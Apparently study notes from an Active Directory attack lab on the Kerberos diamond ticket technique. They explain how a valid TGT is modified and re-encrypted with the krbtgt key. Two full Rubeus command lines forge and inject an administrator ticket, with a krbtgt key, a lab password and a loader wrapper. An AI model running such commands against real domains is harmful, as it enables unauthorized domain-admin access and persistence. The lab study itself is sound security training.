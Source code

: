A diamond ticket is created by decrypting a valid TGT, making changes to
it and re-encrypt it using the AES keys of the krbtgt account. **This is a ticket repackaging attack**

Once again, the persistence lifetime depends on krbtgt account.
A diamond ticket is more **OPSEC** safe as it has a valid ticket times because a TGT issued by the DC is modified

Golden ticket was a **TGT forging attack** whereas diamond ticket is a TGT
modification attack

We would still need `krbtgt` AES keys to create a diamond ticket like so. Note that RC4 or AES keys of the user can be used
too):
```powershell
Loader.exe -path Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We could also use `/tgtdeleg` option in place of credentials in case we're running it as a domain user
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

![[Pasted image 20250510210937.png]]